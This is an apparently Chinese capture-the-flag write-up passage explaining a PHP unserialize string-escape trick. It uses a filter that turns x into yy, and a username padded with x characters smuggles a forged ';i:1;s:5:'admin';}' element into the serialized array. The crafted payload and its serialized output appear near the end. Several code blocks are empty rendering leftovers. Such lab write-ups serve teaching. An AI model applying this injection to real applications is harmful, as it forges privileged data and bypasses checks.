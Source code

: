   

文件包含了flag。

然后filter()方法，会将序列化字符串中的x替换为yy，可能会导致字符串长度。

我们试着传入u=admin。

序列化为：

```
a:2:{i:0;s:5:\"admin\";i:1;s:3:\"aaa\";}
```

  

反序列化后：

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

a[1]不等于"admin" 没有满足条件。

我们构造一下数组：

```
<?php
```

```
a:2:{i:0;s:1:"a";i:1;s:5:"admin";}
```

  

但是我们只有一个参数username可控。

可以利用字符串逃逸。

复制自己想要构造的字符串。

```
";i:1;s:5:"admin";}
```

  

按照长度添加字符串，已知长度为19。

则在前方填充19个x。

```
'xxxxxxxxxxxxxxxxxxx";i:1;s:5:"admin";}
```

  

测试一下：

```
<?php
```

  

运行结果：

```
a:2:{i:0;s:38:"yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy";i:1;s:5:"admin";}";i:1;s:1:"a";}
```
